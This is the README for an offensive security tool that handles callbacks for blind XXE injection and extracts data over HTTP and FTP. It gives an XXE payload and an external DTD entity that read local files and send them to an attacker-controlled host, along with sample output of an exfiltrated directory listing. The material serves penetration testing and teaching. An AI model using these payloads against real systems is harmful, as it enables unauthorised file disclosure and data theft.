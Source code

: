 # xxer
A blind XXE injection callback handler. Uses HTTP and FTP to extract information. Originally written in Ruby by [ONsec-Lab](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb). Rewritten here because I don't like Ruby.

## Target Audience
If you can explain what XXE injection is and how to find it, this is for you. If not, check out [vulnd_xxe](https://github.com/TheTwitchy/vulnd_xxe).

Basically, this doesn't actually find XXE injection for you, it helps you deal with getting useful information back once you've found a vulnerable input. For actually finding vulnerable injection points, I recommend using a small HTTP payload and some sort of DNS callback service like [Burp Collaborator](https://portswigger.net/burp/help/collaborator.html). If Collaborator reports a DNS lookup, followed by an HTTP lookup, then you're good to go.

## Examples

### Options
```
root@kali:~$ xxer.py -h
usage: xxer [-h] [-v] [-q] [-p HTTP] [-P FTP] -H HOSTNAME

XXE Injection Handler

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -q, --quiet           surpress extra output
  -p HTTP, --http HTTP  HTTP server port
  -P FTP, --ftp FTP     FTP server port
  -H HOSTNAME, --hostname HOSTNAME
                        Hostname of this server

Originally from https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-
server.rb, rewritten in Python by TheTwitchy
```

### Basic Usage
```
root@kali:~$ xxer.py -H kali.host.com
                 
 _ _ _ _ ___ ___ 
|_'_|_'_| -_|  _|
|_,_|_,_|___|_|  
                 
version 1.0

info: Starting xxer_httpd on port 8080
info: Starting xxer_ftpd on port 2121
info: Servers started. Use the following payload (with URL-encoding):

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE xmlrootname [<!ENTITY % aaa SYSTEM "http://kali.host.com:8080/ext.dtd">%aaa;%ccc;%ddd;]>


127.0.0.1 - - [23/Apr/2017 20:59:04] "GET /ext.dtd HTTP/1.1" 200 -
info: FTP: recvd 'USER fakeuser'
info: FTP: recvd 'PASS aaaaaaaaaadescriptivefoldername
IRS_LETTERS_2014_ANGRY
passwords.txt
pictures_of_ex_hi_def
pictures_of_ex_ultra_hi_def
szechuan_sauce_recipe.pgp
TAXES2012
Taxes2013
TAXES2015
Temporary Internet Files
'
info: FTP: recvd 'TYPE I'
info: FTP: recvd 'EPSV ALL'
info: FTP: recvd 'EPSV'
info: FTP: recvd 'RETR b'
```

## "Features"
  * Only has one exfiltration point (currently, the FTP password). Obviously this can be changed up as needed, but may require some basic code changes (specifically in the FTP handlers).
  * Install via ``pip``. Needs at least a requirements.txt or a setup.py. For now just clone and run.
  * Currently serves up everything in the folder in which it was run over HTTP. Probably not a huge security risk, but something you should be aware of, espeially on a public server.
  * Integrated server file/directory browsing as a future upgrade?

## Troubleshooting
  * I don't get a callback over HTTP to retrieve ``ext.dtd``.
    * This could mean a number of things, mostly related to not being vulnerable to XXE:
      * External entities may be disallowed. This can be done by rejecting DOCTYPE decclarations in documents, which I believe prevents XXE injection.
      * It may also allow entities, but disallow entities from remote sources. I've seen this on some Python XML libraries.
      * Outbound traffic could be blocked at a firewall, or requests mat only go to whitelisted hosts.
    * There could also be a type in the payload or a bug. Check the generated ``ext.dtd`` file to make sure everything looks correct. 
  * The initial HTTP callback for ext.dtd works, but after that I see nothing.
    * This could mean that FTP as a protocol is disabled server-side. Try changing the FTP callback in ``ext.dtd`` to an HTTP one, like ``<!ENTITY % bbb SYSTEM "file:///tmp/"><!ENTITY % ccc "<!ENTITY &#37; ddd SYSTEM 'http://HOSTNAME:2121/b'>">``. If you get a callback to the /b document, this is probably the case. Try using the gopher protocol as well, but this was removed in Java 1.6.32 (or something close).
